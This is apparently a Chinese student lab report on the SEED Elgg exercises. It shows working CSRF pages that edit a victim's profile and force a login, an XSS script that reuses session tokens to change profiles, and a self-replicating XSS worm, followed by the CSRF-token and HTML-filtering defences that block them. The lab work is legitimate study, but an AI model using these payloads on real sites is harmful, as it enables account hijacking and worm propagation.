# 0. 环境

## 0.1 CSRF环境信息

可信站点`www.csrflabelgg.com`

恶意站点`www.csrflabattacker.com`、

用户信息

| User    | UserName | Password    | guid |
| ------- | -------- | ----------- | ---- |
| Admin   | admin    | seedelgg    |      |
| Alice   | alice    | seedalice   | 42   |
| Body    | body     | seedbody    |      |
| charlie | charlie  | seedcharlie |      |
| Samy    | samy     | seedsamy    | 45   |

## 0.2 XSS环境信息

站点：`www.xsslabelgg.com`

用户信息

| User    | UserName | Password    | guid |
| ------- | -------- | ----------- | ---- |
| Admin   | admin    | seedelgg    |      |
| Alice   | alice    | seedalice   |      |
| Body    | body     | seedbody    |      |
| charlie | charlie  | seedcharlie |      |
| Samy    | samy     | seedsamy    |      |

# 1. 任务1 CSRF

## 1.1 基于GET请求的CSRF

### 1.1.1 获取添加好友的HTTP请求

使用Samy登录应用，添加好友alice。

通过HTTP Header Live插件获取http Header

http://www.csrflabelgg.com/action/friends/add?friend=42



get请求为http://www.csrflabelgg.com/action/friends/add?friend=(id号)

### 1.1.2 获取Samy的ID

通过检查可知Samy的ID为45



### 1.1.3 构造恶意站点

在`/var/www/CSRF/Attacker`下新建csrf_get.html文件

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF</title>
</head>
<body>
    
</body>
</html>
```

### 1.1.4 测试

登录Alice账号，访问www.csrflabattacker.com。

发现alice已经成功添加samy为好友



## 1.2 基于POST请求的CSRF

### 1.2.1 获取修改资料的请求

使用Samy登录，修改个人资料后提交

目标url:http://www.csrflabelgg.com/action/profile/edit

```
accesslevel[briefdescription]:2
accesslevel[contactemail]:2
accesslevel[description]:2
accesslevel[interests]:2
accesslevel[location]:2
accesslevel[mobile]:2
accesslevel[phone]:2
accesslevel[skills]:2
accesslevel[twitter]:2
accesslevel[website]:2
briefdescription:
contactemail:
description:<p>test</p>
guid:45
interests:
location:
mobile:
name:Samy
phone:	
skills:	
twitter:	
website:
```

### 1.2.2 获取Alice的ID

由1知alice的id为42

### 1.2.3 构造恶意站点

参数:

```
guid: (必须)
description:"<p>Samy is my hero</p>",
```

csrf_post.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF_POST</title>
</head>
<body>
CSRF_POST
</body>

<script>
    // 发送POST请求
    // 携带cookie
    fetch('http://www.csrflabelgg.com/action/profile/edit', {
        credentials: 'include',
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        // 传递参数
        body: new URLSearchParams({
            guid:42,
            description:"<p>Samy is my hero</p>",
        })
    })

</script>
</html>
```

### 1.2.4 测试

使用alice访问csrf_post.html后



alice的description被修改。



## 1.3 login CSRF攻击

### 1.3.1 获取登录的http请求

使用samy进行登录测试

目标url:http://www.csrflabelgg.com/action/login

```
__elgg_token	VVxrxabIArM68W478e9YNg
__elgg_ts	1685482802
password	seedsamy
persistent	true
username	samy
```

### 1.3.2 构造恶意站点

参数

```
password:seedsamy
persistent:true
username:samy
```

csrf_login.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF_Login</title>
</head>
<body>
CSRF_Login
</body>

<script>
    // 发送POST请求
    // 携带cookie
    fetch('http://www.csrflabelgg.com/action/login', {
        credentials: 'include',
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        // 传递参数
        body: new URLSearchParams({
            password:"seedsamy",
            persistent:true,
            username:"samy",
        })
    })

</script>
</html>
```

### 1.3.3 测试

使用alice登录后，访问http://www.csrflabattacker.com/csrf_login.html



登录账号切换为samy



## 1.4 防御措施

### 1.4.1 打开防御策略

在`/var/www/CSRF/Elgg/vendor/elgg/elgg/engine/classes/Elgg/ActionsService.php`文件中找到函数 public function gatekeeper($action)，注释掉return true.



### 1.4.2 测试

测试基于GET的CSRF，无法成功



测试基于POST的CSRF，无法成功



测试login CSRF攻击，无法成功



# 2. 任务2 XSS

## 2.1 盗取Cookie

### 2.1.1 插入XSS

使用samy登录

修改samy的profile。

在其中的About me字段，**先点击Edit HTML**，添加如下内容

```html
<script>document.write(''); </script>
```

提交修改



### 2.1.2 测试

使用alice登录，打开Samy的主页。

通过检查发现了，alice的cookie已经被发出了，攻击成功



## 2.2 使用ajax脚本发起会话劫持

### 2.2.1 插入xss

使用samy登录

修改samy的profile。

在其中的About me字段，**先点击Edit HTML**，添加如下内容

```html
<script>
    window.onload = function () {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var guid = elgg.session.user.guid;
        fetch('http://www.xsslabelgg.com/action/profile/edit', {
            credentials: 'include',
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: new URLSearchParams({
                __elgg_ts: ts,
                __elgg_token: token,
                guid: guid,
                briefdescription: "Samy is my hero",
            })
        })
    }
</script>
```

### 2.2.1 测试

使用alice登录

访问samy的主页。

发现发出post修改briefdescription



查看alice的主页，briefdescription已经被修改



## 2.3 构造XSS蠕虫

### 2.3.1 插入XSS

使用samy登录

修改samy 的profile

在其中的About me字段，**先点击Edit HTML**，添加如下内容

```html
<script id='worm'>
    setTimeout(() => {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var guid = elgg.session.user.guid;
        fetch('http://www.xsslabelgg.com/action/profile/edit', {
            credentials: 'include',
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: new URLSearchParams({
                __elgg_ts: ts,
                __elgg_token: token,
                guid: guid,
                briefdescription: "Samy is my hero",
                description: "<script id='worm'>" + document.getElementById('worm').innerHTML + "<\/script>"
            })
        })
    }, 3000)
</script>
```

### 2.3.2 测试

使用alice登录

访问samy的主页。

发现发送了请求修改alice的profile



将alice的description修改成恶意xss自身



查看alice的profile，发现修改成功。



## 2.4 防御策略

### 2.4.1 仅开启HTMLawed 1.9



访问受害者的主页

发现script标签被转换为了p标签，插入的js语句无法执行



### 2.4.2 开启两个安全策略

开启`htmlspecialchars`

text.php



url.php



dropdown.php



email.php



访问受害者主页

发现一些特殊符号已经被转换为了实体符号，js语句无法执行
